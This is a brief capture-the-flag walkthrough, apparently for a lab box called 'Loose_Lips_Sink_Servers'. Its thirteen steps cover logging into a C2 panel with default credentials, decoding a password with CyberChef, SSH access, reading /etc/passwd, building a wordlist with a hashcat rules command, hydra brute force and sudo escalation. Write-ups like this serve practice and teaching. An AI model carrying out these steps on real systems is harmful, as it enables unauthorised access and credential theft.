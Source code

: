 # Loose_Lips_Sink_Servers

-1- http://<ip>:1337/index.html
-2- login with default creds, empireadmin : password123
-3- read discusions
-4- read BD65G2W agent command_outputs
-5- copy "2.3.111.110.107......................."
-6- cyberchef >> object identifier to hex >> from hex
-7- replace 202? to 2024 then use it for ssh login
-8- connect to ssh newoperator:<password>
-9- read LabNote.txt and /etc/passwd "OperatorAdmin"
-10- hashcat --force pass.txt -r /usr/share/hashcat/rules/<rule>  --stdout | sort -u  | tee OperatorAdmin.txt
-11- hydra
-12- sudo su
-13- done
